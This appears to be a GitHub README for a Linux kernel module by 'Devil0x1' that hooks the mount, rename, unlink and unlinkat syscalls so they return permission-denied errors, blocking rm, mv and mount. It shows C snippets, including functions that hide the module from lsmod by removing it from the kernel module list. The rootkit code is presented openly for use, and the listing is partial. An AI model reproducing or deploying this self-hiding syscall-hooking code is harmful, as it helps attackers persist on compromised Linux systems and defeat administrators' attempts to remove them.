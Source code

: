 This Lkm created by Devil0x1 , which hook mount unlink and unlink at also rename which block commands like rm mount mv.
Works in Versions 4.x
```#include <linux/module.h>
#include <linux/syscalls.h>
#include <linux/kallsyms.h>
#include <linux/mutex.h>
#include <linux/uaccess.h>
```
This all are needed libraries 


``` static asmlinkage long (*real_sys_mount)(const char __user *source, const char __user *target,
                                         const char __user *filesystemtype, unsigned long flags,
                                         const void __user *data);
static asmlinkage long (*real_sys_rename)(const char __user *oldname, const char __user *newname);
static asmlinkage long (*real_unlink)(const char __user *pathname);
static asmlinkage long (*real_unlinkat)(int dfd, const char __user *pathname, int flag);```


Above are just the real syscalls pointers


So , we hooked an mount , rename , unlink , unlinkat and return -EPERM error to show permission denied errors :) eg:
``` return -EPERM``



```void module_show(void) {
    list_add(&THIS_MODULE->list, prev_module);
    hidden = 0;
}

void module_hide(void) {
    prev_module = THIS_MODULE->list.prev;
    list_del(&THIS_MODULE->list);
    hidden = 1;
}
```

  Simple , functions which first shows hide from lsmod and show at lsmod 


  POC:

  <img width="520" height="173" alt="image" src="https://github.com/user-attachments/assets/54460af4-ac5a-4bd0-9a5b-603f0c9c8ea0" />



  Here perm denied errors hehe :
<img width="632" height="91" alt="image" src="https://github.com/user-attachments/assets/1913ec80-dbaf-4de8-8e25-a13e2b1e14cc" />






